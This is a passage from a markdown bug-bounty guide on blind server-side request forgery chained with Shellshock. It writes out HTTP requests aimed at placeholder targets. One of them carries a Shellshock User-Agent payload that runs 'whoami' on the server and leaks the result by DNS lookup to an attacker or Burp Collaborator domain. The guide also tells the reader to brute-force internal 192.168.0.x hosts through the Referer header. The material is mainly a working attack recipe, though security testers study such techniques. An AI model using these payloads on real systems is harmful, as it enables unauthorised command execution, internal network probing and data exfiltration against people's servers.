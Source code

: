 2) In the above HTTP Headers, We put our(attacker_controlled) host to test for the BLIND-SSRF.
3) We can also use Burp-collaborator-Client for this.
---
### Blind SSRF with Shellshock exploitation

   #### NOTE: `This BUG/Exploit is very OLD`, there is very less chances to get this in currently used web-servers. ######      

1) Consider an application fetches its products from backend services, and the request look like this..

       GET /product?productId=2 HTTP/2
       Host: subdomain.target.com
       Cookie: session=otq3FxCmKNEyM6TFLIV9zPRPxNg0x1T2
       User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87
       Referer: https://subdomain.target.com/path1/path2
   
 2) Now, if we found Blind/out_of_band SSRF through `referer` header , we can also test for shellshock exploitation 

   ##### About shell shock : https://blog.cloudflare.com/inside-shellshock/
   
3) So, now the the framed request like..

       GET /product?productId=2 HTTP/2
       Host: subdomain.target.com
       Cookie: session=otq3FxCmKNEyM6TFLIV9zPRPxNg0x1T2
       User-Agent: () { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
       Referer: http://192.168.0.x:8080

4) In the above request , what it does is basically, the application fetches data from internal range i.e : 
      `192.168.0.x:8080` , we can bruteforce the `x`(internal range) from `1-255`

5) Then the `User-Agent` will process internally, so if we just replace the value of `User-Agent` , with our shellshock payload i..e : `() { :; }; /usr/bin/nslookup $(whoami).ATTACKER-DOMAIN`
   
6) Then it will ping the `ATTACKER-DOAMIN` along with the output of `whoami` from the Vulnerable webservers.
---
---
